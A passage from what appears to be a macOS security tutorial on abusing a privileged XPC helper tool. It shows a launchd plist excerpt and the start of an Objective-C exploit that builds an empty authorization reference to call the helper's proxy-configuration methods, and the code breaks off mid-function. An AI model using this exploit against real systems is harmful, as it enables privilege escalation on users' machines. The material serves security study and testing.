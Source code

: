 <figure><img src="../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* In the launchd plist:

```xml
cat /Library/LaunchDaemons/com.example.HelperTool.plist

[...]

	<key>MachServices</key>
	<dict>
		<key>com.example.HelperTool</key>
		<true/>
	</dict>
[...]
```

### Exploit Example

In this example is created:

* The definition of the protocol with the functions
* An empty auth to use to to ask for access
* A connection to the XPC service
* A call to the function if the connection was successful

```objectivec
// gcc -framework Foundation -framework Security expl.m -o expl

#import <Foundation/Foundation.h>
#import <Security/Security.h>

// Define a unique service name for the XPC helper
static NSString* XPCServiceName = @"com.example.XPCHelper";

// Define the protocol for the helper tool
@protocol XPCHelperProtocol
- (void)applyProxyConfigWithAuthorization:(NSData *)authData settings:(NSDictionary *)settings reply:(void (^)(NSError *))callback;
- (void)resetProxyConfigWithAuthorization:(NSData *)authData restoreDefault:(BOOL)shouldRestore reply:(void (^)(NSError *))callback;
- (void)legacyConfigureProxyWithAuthorization:(NSData *)authData enabled:(BOOL)isEnabled host:(NSString *)hostAddress port:(NSString *)portNumber reply:(void (^)(NSError *, BOOL))callback;
- (void)fetchVersionWithReply:(void (^)(NSString *))callback;
- (void)establishConnectionWithReply:(void (^)(NSXPCListenerEndpoint *))callback;
@end

int main(void) {
    NSData *authData;
    OSStatus status;
    AuthorizationExternalForm authForm;
    AuthorizationRef authReference = {0};
    NSString *proxyAddress = @"127.0.0.1";
    NSString *proxyPort = @"4444";
    Boolean isProxyEnabled = true;
     
    // Create an empty authorization reference
    status = AuthorizationCreate(NULL, kAuthorizationEmptyEnvironment, kAuthorizationFlagDefaults, &authReference);
    const char* errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
    NSLog(@"OSStatus: %s", errorMsg);
    
    // Convert the authorization reference to an external form
    if (status == errAuthorizationSuccess) {
        status = AuthorizationMakeExternalForm(authReference, &authForm);
```